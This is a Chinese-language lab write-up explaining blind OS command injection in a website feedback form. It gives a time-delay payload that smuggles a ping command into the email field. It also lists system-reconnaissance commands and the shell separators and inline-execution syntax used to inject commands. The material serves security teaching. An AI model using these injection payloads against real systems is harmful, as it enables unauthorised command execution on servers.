


# 题意

feedback功能中存在OS命令注入漏洞，并且不会返回错误信息。
# 解题思路
在lab中执行feedback功能并抓包，将email字段改成如下payload：
```
email=x||ping+-c+10+127.0.0.1||
```


发送之后可以发现响应在10s左右才收到。

# 知识点

## 常用命令

当识别出OS注入漏洞之后，通常需要执行一些命令来获取系统信息，常见的信息如下：
```
Purpose of command	    Linux	      Windows
Name of current user	whoami	      whoami
Operating system	    uname -a      ver
Network configuration	ifconfig      ipconfig /all
Network connections	    netstat -an	  netstat -an
Running processes	    ps -ef	      tasklist
```


## OS命令盲注
许多操作系统注入的实例都是盲注，这意味着应用程序没有从服务器返回命令的结果，盲注需要特殊的技术来达到目的。

假设一个网站让用户提交网站的反馈，用户输入了他们的邮件地址和反馈信息。服务端应用程序随后生成了一个邮件地址和反馈信息给网站管理员。为了实现这个功能，程序会把提交的信息转发给mail程序。例如：
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
mail程序的输出不会包含在应用程序的响应报文里，所以echo载荷不起作用。这种情况下，可以使用其他技术。

## 用延时注入检测OS命令盲注
注入能触发延时的命令，然后根据应用程序响应的时间确定是否存在OS命令注入。ping 命令是执行此操作的有效方法，因为它允许您指定要发送的 ICMP 数据包的数量，以及命令运行所需的时间

```
& ping -c 10 127.0.0.1 &
```
这个命令会让应用程序ping本地回环网络10秒钟。


## 注入OS命令的几种方法

很多的shell元字符都可以用来实施OS命令注入攻击

大量的字符函数，如命令分隔符，允许命令合并到一起。下列命令分隔符在Windows和Unix系统上都适用：
```
&
&&
|
||
```

下列分隔符只在Unix上适用：
```
;
Newline (0x0a or \n)
```

在类Unix系统上，可以使用单引号和美元符号来实现注入命令的内部执行：
```
`
injected command `
$(
injected command )
```
注意，不同的shell元字符有不同的特征，在某些情况下可能会影响其效果，并且决定它们是否允许带内检索命令输出，或者仅对盲目利用有用。

某些情况下载荷在命令中会被双引号包括，此时需要用单引号或者双引号来跳出原引号。